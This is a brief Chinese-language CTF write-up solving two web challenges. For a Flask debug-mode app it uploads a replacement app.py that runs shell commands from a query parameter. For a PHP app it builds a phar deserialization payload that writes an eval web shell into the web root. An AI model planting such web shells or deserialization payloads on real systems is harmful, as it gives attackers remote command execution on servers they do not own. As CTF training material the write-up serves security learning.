 ### flask disk

访问admin manage发现要输入pin码，说明flask开启了debug模式。所以只需要上传一个能rce的app.py文件把原来的覆盖就可以了

```python
from flask import Flask,request
import os
app = Flask(__name__)
@app.route('/')
def index():    
    try:        
        cmd = request.args.get('cmd')        
        data = os.popen(cmd).read()        
        return data    
    except:        
        pass    
        
    return "1"
if __name__=='__main__':    
    app.run(host='0.0.0.0',port=5000,debug=True)
```

payload

```
cmd=cat /f*
```

### PharOne

class.php

```php
 <?php
highlight_file(__FILE__);
class Flag{
    public $cmd;
    public function __destruct()
    {
        @exec($this->cmd);
    }
}
@unlink($_POST['file']); 
```

有上传文件的地方，还有unlink函数，说明这是一道phar反序列化的题目

```php
<?php

class Flag{
    public $cmd = "echo '<?=eval(\$_POST[1]);?>'>/var/www/html/2.php";
}

$phar = new Phar("1.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");

$o = new Flag();
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```
